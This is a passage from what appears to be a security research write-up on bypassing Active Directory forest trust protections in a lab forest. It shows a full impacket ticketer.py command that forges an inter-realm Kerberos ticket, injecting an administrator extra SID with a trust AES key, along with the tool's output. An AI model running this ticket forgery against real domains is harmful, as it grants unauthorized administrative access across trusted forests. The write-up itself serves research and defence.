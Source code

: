 ![Updated forest trust info](/assets/img/foresttrusts/foresttrustinfoupdated.png){: .align-center}

![Updated forest trust info](/assets/img/foresttrusts/ftinfo-updated.png){: .align-center}

Note that this also shows the new SID properly, indicating that our SID is now actually trusted (this `S-1-5-21-2937342636-164546242-3042484607` SID is the same SID we queried previously from the server).

The last step is performing the forest trust bypass attack. We forge an inter-realm trust ticket, using once again the incoming trust key for the inter-realm ticket:

```
python ~/impacket/examples/ticketer.py -domain forest-a.krbtgt.cloud -domain-sid S-1-5-21-4138248074-3154221552-1885830394 -user-id 1000 -groups 513 -extra-sid S-1-5-21-2937342636-164546242-3042484607-500 -spn krbtgt/FOREST-B.KRBTGT.CLOUD -aesKey 0bd61f335bcb7fb66ac0b06b0b2208e7e94597da8d2de102cbc88cd01b2cc03c fakeuser

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for forest-a.krbtgt.cloud/fakeuser
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in fakeuser.ccache
```
